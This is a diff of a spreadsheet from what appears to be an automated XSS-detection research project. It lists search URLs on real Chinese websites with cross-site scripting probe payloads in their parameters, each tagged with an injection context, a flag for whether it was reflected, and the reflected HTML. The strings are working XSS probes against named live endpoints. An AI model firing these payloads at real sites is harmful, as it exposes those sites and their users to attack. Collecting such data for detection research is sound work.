

Before and after one commit to adnanshahz2018/Automated-XSS-Detection, an Excel workbook: ChineseLanguage/file.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/ChineseLanguage/file.xlsx (sheet Sheet1)
+++ b/ChineseLanguage/file.xlsx (sheet Sheet1)
+row 16: http://pinterface.tianjimedia.com/front/wap/searchresult.jsp?keyword=" onmouseover="alert`1` | ATTR | TRUE | <meta name="keywords" content="" onmouseover="alert`1`," onmouseover="alert`1`报价," onmouseover="alert`1`最新报价," onmouseover="alert`1`大全," onmouseover="alert`1`报价大全" /> , <meta name="description" content="天极产品库_wap版提供" onmouseover="alert`1`最新报价信息,包括" onmouseover="alert`1`价格,参数,评测,图片,论坛等详细内容." /> , <input type="text" id = "textin" value="" onmouseover="alert`1`" name="keyword" class="wapin" onClick="this.value='';"> ,
+row 17: http://pinterface.tianjimedia.com/front/wap/searchresult.jsp?keyword=" onmouseover="alert`1` | ATTR | TRUE | <meta name="keywords" content="" onmouseover="alert`1`," onmouseover="alert`1`报价," onmouseover="alert`1`最新报价," onmouseover="alert`1`大全," onmouseover="alert`1`报价大全" /> , <meta name="description" content="天极产品库_wap版提供" onmouseover="alert`1`最新报价信息,包括" onmouseover="alert`1`价格,参数,评测,图片,论坛等详细内容." /> , <input type="text" id = "textin" value="" onmouseover="alert`1`" name="keyword" class="wapin" onClick="this.value='';"> ,
+row 18: http://pinterface.tianjimedia.com/front/wap/searchresult.jsp?keyword=" onmouseover="alert`1` | ATTR | TRUE | <meta name="keywords" content="" onmouseover="alert`1`," onmouseover="alert`1`报价," onmouseover="alert`1`最新报价," onmouseover="alert`1`大全," onmouseover="alert`1`报价大全" /> , <meta name="description" content="天极产品库_wap版提供" onmouseover="alert`1`最新报价信息,包括" onmouseover="alert`1`价格,参数,评测,图片,论坛等详细内容." /> , <input type="text" id = "textin" value="" onmouseover="alert`1`" name="keyword" class="wapin" onClick="this.value='';"> ,
+row 19: http://pinterface.tianjimedia.com/front/wap/searchresult.jsp?keyword=<img src=x onerror='alert`1`'> | HTML | TRUE | <img src=x onerror='alert`1`'>最新报价-<img src=x onerror='alert`1`'>大全-天极产品库-wap版</title> ,
+row 20: http://pinterface.tianjimedia.com/front/wap/searchresult.jsp?keyword=<img src=x onerror="alert`1`"> | HTML | TRUE | <img src=x onerror="alert`1`">最新报价-<img src=x onerror="alert`1`">大全-天极产品库-wap版</title> ,
+row 21: http://pinterface.tianjimedia.com/front/wap/searchresult.jsp?keyword='; confirm`1`; ' | SCRIPT | TRUE
+row 22: http://pinterface.tianjimedia.com/front/wap/searchresult.jsp?keyword=</script><script>alert`1`</script> | SCRIPT | TRUE
+row 23: https://so.csdn.net/so/search/s.do?q=' onmouseover='alert`1`&t=&u= | ATTR | TRUE | <meta name="csdn-baidu-search" content='{"keyword":"' onmouseover='alert`1`"}'/> ,
+row 24: https://so.csdn.net/so/search/s.do?q=</script><script>alert`1`</script>&t=&u= | SCRIPT | FALSE | None
+row 25: https://search.bilibili.com/all?keyword='; confirm`1`; '&from_source=nav_search_new | SCRIPT | FALSE | None
```
Also changed, not shown: 10 added rows elsewhere in this sheet, 57 other files.
